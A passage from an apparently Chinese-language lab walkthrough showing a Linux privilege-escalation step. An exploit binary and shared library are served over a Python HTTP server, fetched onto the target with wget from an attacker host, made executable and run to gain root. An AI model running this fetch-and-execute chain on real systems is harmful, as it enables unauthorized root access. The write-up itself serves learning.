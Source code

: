 ```
docker cp ubuntu14:/exp .
```

然后把docker里面的文件复制出来

![image-20230903185049835](../资源文件/图片/image-20230903185049835.png)

```
python3 -m http.server 100
```

> 开启100端口的http服务

```
wget -c http://192.168.56.103:100/exp
wget -c http://192.168.56.103:100/ofs-lib.so
```

![image-20230903200930530](../资源文件/图片/image-20230903200930530.png)

```
mv exp tmp
mv ofs-lib.so tmp
chmod +x exp
./exp
```

移动至tmp目录下，并给予权限，再执行，则提权成功！

![image-20230903202722548](../资源文件/图片/image-20230903202722548.png)

